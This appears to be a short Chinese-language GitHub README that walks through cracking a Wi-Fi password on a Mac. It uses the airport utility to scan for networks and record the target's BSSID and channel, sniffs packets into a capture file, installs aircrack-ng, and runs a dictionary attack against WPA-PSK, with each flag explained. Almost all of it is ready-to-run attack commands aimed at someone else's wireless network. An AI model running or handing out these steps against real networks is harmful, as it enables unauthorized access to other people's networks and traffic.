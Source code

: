 # Mac Airport Aircrack-ng

`sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport`

`sudo airport -s`
> 扫描wifi

　其中，我们先找到我们需要破解的Wi-Fi名字，纪录下来BSSID，CHANNEL和SECURITY信息，后面会用到。BSSID就是我们目标Wi-Fi发射器的Mac地址。

`sudo airport en0 sniff 11`

`/tmp/airportSniff*.cap`

```
brew install aircrack-ng
brew install crunch # optional
```

`aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff*.cap`

```
参数说明：

　　- -w 指定字典文件
　　- -M 指定最大IVs，根据提示可以适当调大次参数
　　- -f 暴力破解因子，默认2，也可适当调大
　　- -a 加密类型，1:WEP, 2:WPA-PSK
　　- -b BSSID，刚刚记录目标Wi-Fi的Mac地址
```

---

`sudo airport en0 sniff 6`
> 监听